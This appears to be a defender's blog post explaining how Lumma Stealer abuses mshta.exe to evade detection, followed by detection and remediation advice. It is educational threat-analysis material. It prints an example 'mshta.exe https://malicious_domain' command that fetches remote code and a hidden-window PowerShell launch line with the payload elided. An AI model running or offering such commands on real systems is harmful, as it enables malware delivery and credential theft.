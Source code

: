 ```yaml
---
author: "Wren Howell"
title: "Lumma's Living off the Land by MSHTA"
date: 2025-04-14
description: "Living off the Land Using MSHTA"
tags: ["Living off the Land , Windows"]
thumbnail: https://frsecure.com/wp-content/uploads/2021/08/Living-Off-the-Land-Attacks.jpg
---
```


As EDR and endpoint detections evolve, so do the tactics of threat actors. Rather than relying on attacker tools that are easily flagged by security systems, adversaries are increasingly leveraging living-off-the-land techniques—abusing legitimate tools and processes already present in the environment to execute malicious activity.

One such example is Lumma Stealer, a type of information stealer often associated with Russian threat actors. Lumma Stealer is known for its simplicity and effectiveness, utilizing built-in Windows binaries like mshta.exe to evade detection.

**What is mshta.exe?** 

Mshta.exe is a native Windows utility designed to execute Microsoft HTML Applications (HTA). HTAs are essentially HTML files combined with scripting languages such as VBScript or JavaScript, and they execute with the same privileges as the user.
Threat actors like Lumma Stealers commonly exploit mshta.exe by passing malicious arguments that spawn PowerShell commands. For example, Lumma Stealer might use a command like:

```bash
mshta.exe https://malicious_domain
```

This would be followed by an obfuscated PowerShell script designed to retrieve additional payloads or commands from the attacker's controlled infrastructure.
```bash
powershell.exe -w -h -ep Unrestricted -nop function [a bunch of hex]
```
**Detection and Remediation**

**Detection**
A strong detection signal is when mshta.exe spawns a child process such as PowerShell or cmd.exe, especially when the PowerShell command line is unusually long or obfuscated. These are high-fidelity indicators of potentially malicious behavior.

**Remediation**
Since Lumma Stealer is a type info stealer, remediation steps include:
- Resetting credentials for the affected user(s)
- Blocking the malicious domain used in the attack
- Deleting the phishing email or document responsible for the initial infection

For a more comprehensive defense, consider implementing Windows Defender Application Control (WDAC) policies to block all HTA file execution. This mitigates an entire class of attacks that abuse mshta.exe.


{{< css.inline >}}

<style>
.emojify {
	font-family: Apple Color Emoji, Segoe UI Emoji, NotoColorEmoji, Segoe UI Symbol, Android Emoji, EmojiSymbols;
	font-size: 2rem;
	vertical-align: middle;
}
@media screen and (max-width:650px) {
  .nowrap {
    display: block;
    margin: 25px 0;
  }
}
</style>

{{< /css.inline >}}
